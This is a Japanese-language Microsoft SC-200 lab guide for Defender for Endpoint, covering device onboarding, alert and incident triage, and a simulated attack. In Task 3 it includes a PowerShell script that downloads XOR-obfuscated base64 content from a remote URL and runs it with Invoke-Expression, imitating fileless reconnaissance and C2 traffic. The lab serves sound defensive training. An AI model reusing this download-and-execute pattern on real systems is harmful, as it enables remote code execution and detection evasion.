 ```yaml
---
lab:
  title: 演習 2 - Microsoft Defender for Endpoint を使用した攻撃の軽減
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# ラーニング パス 2 - ラボ 1 - 演習 2 - Microsoft Defender for Endpoint を使用した攻撃の軽減

## ラボのシナリオ

![ラボの概要。](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

あなたは Microsoft Defender for Endpoint を実装している企業で働いているセキュリティ運用アナリストです。 あなたの上司は、いくつかのデバイスをオンボードして、セキュリティ オペレーション (SecOps) チームの応答手順で必要な変更に関する情報を提供しようとしています。

Defender for Endpoint の攻撃の軽減機能を確認するために、デバイスのオンボードが成功したことを確認し、そのプロセス中に発生したアラートとインシデントを調査します。

>**メモ:** このラボをご自分のペースでクリックして進めることができる、 **[ラボの対話型シミュレーション](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** が用意されています。 対話型シミュレーションとホストされたラボの間に若干の違いがある場合がありますが、示されている主要な概念とアイデアは同じです。

### タスク 1: デバイスのオンボードを確認する

このタスクでは、デバイスが正常にオンボードされていることを確認し、テスト アラートを作成します。

1. Microsoft Edge ブラウザーの Microsoft Defender XDR ポータルにまだアクセスしていない場合は、(https://security.microsoft.com) に移動して、お使いになっているテナントの管理者としてログインします。

1. 左側のメニューの **[アセット]** 領域の下で **[デバイス]** を選択します。 [デバイス] ページに WIN1 が表示されるまで待ち続けます。 そうしないと、後で生成されるアラートを表示するために、このタスクを繰り返さなければならなくなる可能性があります。

    >**注:**  オンボード プロセスを完了してから 1 時間経ってもデバイス一覧にデバイスが表示されない場合は、オンボードまたは接続に問題があるおそれがあります。

1. 左側のメニュー バーから **[設定]** を選択し、設定 ページから **[エンドポイント]** を選択します。

1. [デバイス管理] セクションで **[オンボード]** を選択し、 *[Windows 10 と 11]* がオペレーティング システムとして選択されていることを確認します。 *"最初のデバイスがオンボードされました"* というメッセージが *[完了]* と表示されるようになります。

1. 下にスクロールし、セクション *[2. 検出テストを実行します]* の下で **[コピー]** ボタンを選択して、検出テストのスクリプトをコピーします。  

1. WIN1 仮想マシンの Windows 検索バーで「**CMD**」と入力し、コマンド プロンプト アプリの右側のペインで **[管理者として実行]** を選択します。

1. [ユーザー アカウント制御] ウィンドウが表示されたら **[はい]** を選択し、アプリの実行を許可します。 

1. **[管理者: コマンド プロンプト]** ウィンドウでスクリプトを右クリックして貼り付け、**Enter** キーを押して実行します。

    >**注:**  このウィンドウは、スクリプトが正常に実行されると自動的に閉じられ、数分後に Microsoft Defender XDR ポータル内にアラートが生成されます。

### タスク 2:アラートとインシデントを調査する

このタスクでは、先ほどのタスクのオンボード検出テスト スクリプトによって生成されたアラートとインシデントを調査します。

1. Microsoft Defender XRD ポータルで、左側のメニュー バーから **[インシデントとアラート]** を選択した後、**[アラート]** を選択します。

1. **[アラート]** ペインで、"疑わしい PowerShell コマンドライン" という名前のアラートを選択してその詳細を読み込みます。**

1. "アラート ストーリー" タイムラインを確認した後、"詳細" タブと "おすすめ" タブを確認します。******

    >**注:**  アラートの "詳細" タブで、"インシデントの詳細" セクションまで下にスクロールし、"1 つのエンドポイント上の実行インシデント" リンクを選択することでインシデントを開くことができます。******

1. Microsoft Defender XRD ポータルで、左側のメニュー バーから **[インシデントとアラート]** を選択した後、**[インシデント]** を選択します

1. "1 つのエンドポイント上の実行インシデント" という名前の新しいインシデントが右側のペインに表示されます。** インシデント名を選択して詳細を読み込みます。

1. (鉛筆アイコンが付いている) **[インシデントの管理]** リンクを選択すると、新しいウィンドウ ブレードが表示されます。

1. **[Incident tags]\(インシデント タグ\)** に「Simulation」と入力し、**[Simulation (Create new)]\(シミュレーション (新規作成)\)** を選んで新しいタグを作成します。

1. **[割り当て先]** トグルを選択して、インシデントの所有者として自分のユーザー アカウント (Me) を追加します。

1. **[分類]** で、ドロップダウン メニューを展開します。

1. **[情報、予期されるアクティビティ]** で、 **[セキュリティ テスト]** を選択します。

1. 必要に応じてコメントを追加し、 **[保存]** を選択してインシデントを更新し、完了します。

1. *[Attack story] (攻撃ストーリー)、[アラート]、[資産]、[調査]、[Evidence and Response] (証拠と応答)* 、および *[概要]* タブの内容を確認します。 "デバイスとユーザー" は "アセット" タブにあります。** 実際のインシデントでは、"攻撃ストーリー" タブに "インシデント グラフ" が表示されます。**** **ヒント:** 一部のタブは、ディスプレイのサイズが原因で非表示になる場合があります。 省略記号タブ (...) を選択して表示します。

### タスク 3 攻撃をシミュレートする

>**警告:** このシミュレーション攻撃は、実践を通して学ぶための優れた情報源です。 コースで提供される Azure テナントを使用する場合は、このラボで提供されている手順にある攻撃のみを実行してください。  他のシミュレーション攻撃は、このテナントでこのトレーニング コースが完了した "後" に実行できます。**

このタスクでは、WIN1 仮想マシンに対する攻撃をシミュレートし、Microsoft Defender for Endpoint によって攻撃が検出され、軽減されることを確認します。

1. WIN1 仮想マシンで、**[スタート]** ボタンを "右クリックし"、**[Windows PowerShell (管理者)]** を選択します。**

1. [ユーザー アカウント制御] ウィンドウが表示されたら **[はい]** を選択し、アプリの実行を許可します。

1. 次のシミュレーション スクリプトをコピーして PowerShell ウィンドウに貼り付け、**Enter** キーを押して実行します。

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**注:**  スクリプトの実行中にエラー (赤色) が発生した場合は、メモ帳アプリを開き、スクリプトを空のファイルにコピーできます。 メモ帳で "右端での折り返し" がオンになっていることを確認してください。** PowerShell でスクリプトの各行を個別にコピーして実行します。

1. スクリプトによって複数行の出力が生成され、"Failed to resolve Domain Controllers in the domain (ドメインのドメイン コントローラーを解決できませんでした)" というメッセージが表示されます。** 数秒後に、"メモ帳" アプリが開きます。** シミュレートされた攻撃コードがメモ帳に挿入されます。 完全なシナリオを体験するには、自動的に生成されたメモ帳インスタンスを開いたままにします。 シミュレートされた攻撃コードは、外部 IP アドレスへの通信 (C2 サーバーのシミュレート) を試みます。

### タスク 4:シミュレーション攻撃を 1 つのインシデントとして調査する

1. Microsoft Defender XRD ポータルで、左側のメニュー バーから **[インシデントとアラート]** を選択した後、**[インシデント]** を選択します

1. *[Multi-stage incident involving Defense evasion & Discovery on one endpoint]\(1 つのエンドポイントでの防御回避と検出を含むマルチステージ インシデント\)* という名前の新しいインシデントが右側のウィンドウに表示されます。 インシデント名を選択して詳細を読み込みます。

1. *[Attack story]\(攻撃ストーリー\)* タブで、**[アラート]** および **[インシデントの詳細]** ウィンドウを折りたたんで、**インシデント グラフ**全体を表示します。

1. **インシデント グラフ ノード**にマウス ポインターを合わせて選択し、"エンティティ" を確認します。**

1. **[アラート]** ウィンドウ (左側) をもう一度展開し、**[Play attack story]\(攻撃ストーリーの再生\)**、[実行] アイコンを選択します。** これにより、攻撃タイムラインがアラートごとに表示され、"インシデント グラフ" が動的に設定されます。**

1. *[Attack story] (攻撃ストーリー)、[アラート]、[資産]、[調査]、[Evidence and Response] (証拠と応答)* 、および *[概要]* タブの内容を確認します。 "デバイスとユーザー" は "アセット" タブにあります。****ヒント:** 一部のタブは、ディスプレイのサイズが原因で非表示になる場合があります。 省略記号タブ (...) を選択して表示します。

1. **Evidence and Response]\(証拠と応答\)** タブで、**[IP アドレス]** を選択し、表示された *IP アドレス* を選択します。 ポップアップ ウィンドウで IP アドレスの詳細を確認し、下にスクロールして **[Open IP address page]\(IP アドレスのページを開く\)** ボタンを選択します。

1. *[IP アドレス]* ページで [概要]、[インシデントとアラート]、[Observed in organizations]\(組織の監視対象\) の各タブの内容を確認します。** 一部のタブには、IP アドレスに関する情報が含まれていない場合があります。

## これでラボは完了です
